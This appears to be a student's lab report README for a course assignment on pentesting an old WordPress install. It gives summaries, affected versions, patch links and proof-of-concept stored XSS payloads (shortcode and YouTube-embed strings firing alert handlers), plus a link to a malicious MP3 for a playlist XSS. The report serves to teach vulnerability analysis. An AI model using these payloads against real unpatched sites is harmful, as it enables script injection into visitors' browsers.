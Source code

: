 # Project 7 - WordPress Pentesting

Time spent: **5** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Authenticated Stored Cross-Site Scripting (XSS)
  - [ ] Summary: Cross-site scripting (XSS) vulnerability in WordPress before 4.2.3 allows remote authenticated users to inject arbitrary web script or HTML by leveraging the Author or Contributor role to place a crafted shortcode inside an HTML element, related to wp-includes/kses.php and wp-includes/shortcodes.php. 
    - Vulnerability types:XSS
    - Tested in version:4.2.2 and earlier
    - Fixed in version: 4.2.3
  - [ ] GIF Walkthrough: ![](https://github.com/LizDao/Week7CodePath/blob/master/GIF_Walkthrough/XXS_A_Tag.gif)
  - [ ] Steps to recreate:
     First, you need to gain posting permission to the website (maybe through another exploit)
     Then the following code should be entered in a page or posting using the HTML edit mode:
      ```
      <a href="[caption code=">]</a><a title=" onmouseover=alert('XSS!')  ">text</a>
      ```
      WordPress shortcode processing manipulates this into the following form:
      ```
      <a href="</a><a title=" onmouseover=alert('XSS!')  ">text</a>
      ```
       A real-world exploit could use a style attribute to create a transparent tag covering the whole browser window to force execution of      the onmouseover code. 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/changeset/33359)
2. (Required) Authenticated Shortcode Tags Cross-Site Scripting (XSS)
  - [ ] Summary:  Cross-site scripting (XSS) vulnerability in WordPress before 4.3.1 allows remote attackers to inject arbitrary web script or HTML by leveraging the mishandling of unclosed HTML elements during processing of shortcode tags. 
    - Vulnerability types: XSS
    - Tested in version: 4.3 and earlier
    - Fixed in version: 4.3.1
  - [ ] GIF Walkthrough: ![](https://github.com/LizDao/Week7CodePath/blob/master/GIF_Walkthrough/XXS_A_Tag_2.gif)
  - [ ] Steps to recreate: 
    This is quite similar to the first exploit. You need to gain post level permission and then post the following code 
    to the website:
    ```
    [caption width="1" caption='<a href="' ">]</a><a href=" onmouseover='alert("XSS!")' ">Text</a>
    ```
    Which will be processed to be:
    ```
    <figcaption class="wp-caption-text"><a href="</figcaption></figure></a><a href=" onmouseover='alert("XSS!")' ">Text</a>
    ```
    - [ ] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/commit/f72b21af23da6b6d54208e5c1d65ececdaa109c8)
    -[Link 2](https://blog.checkpoint.com/2015/09/15/finding-vulnerabilities-in-core-wordpress-a-bug-hunters-trilogy-part-iii-ultimatum/)
3. (Required) Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
  - [ ] Summary: In WordPress before 4.7.3 (wp-includes/embed.php), there is authenticated Cross-Site Scripting (XSS) in YouTube URL Embeds. 
    - Vulnerability types: XSS
    - Tested in version:4.7.2 or earlier
    - Fixed in version: 4.7.3
  - [ ] GIF Walkthrough: ![](https://github.com/LizDao/Week7CodePath/blob/master/GIF_Walkthrough/XSS_Embedded_Linke.gif)
  - [ ] Steps to recreate: 
    Similarly to the 2 exploits above, you gain post level permission and post the embedded url to the website:
    ```
    [embed src='https://www.youtube.com/embed/12345\x3csvg onload=alert("XSS!")\x3e'][/embed]
    ```
    Wordpress will then process this code into:
    ```
    <p>https://youtube.com/watch?v=12345<svg onload=alert("XSS!")></p>
    ```
    - [ ] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/commit/419c8d97ce8df7d5004ee0b566bc5e095f0a6ca8)
4. (Optional)  Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
  - [ ] Summary: Two Cross-Site Scripting vulnerabilities exists in the playlist functionality of WordPress. These issues can be exploited by convincing an Editor or Administrator into uploading a malicious MP3 file. Once uploaded the issues can be triggered by a Contributor or higher using the playlist shortcode. 
    - Vulnerability types: XSS
    - Tested in version:4.7.2 or earlier
    - Fixed in version: 4.7.3
    - [ ] GIF Walkthrough:  ![](https://github.com/LizDao/Week7CodePath/blob/master/GIF_Walkthrough/XSS_MetaData.gif)
    - [ ] Steps to recreate: 
      Download the following mp3 file and upload to the website media library:
      [mp3 file](https://www.securify.nl/advisory/SFY20160742/xss.mp3)
      Create a audio playlist in the new post and add this mp3 file to the playlist
    - [ ] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/commit/28f838ca3ee205b6f39cd2bf23eb4e5f52796bd7)
5. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php) 

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

The installation is extremely time consuming and confusing. The error messages are misleading and searching through forums, trying out tons of different solutions are a bit frustrating. 
But the hacking part is quite fun! 
## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
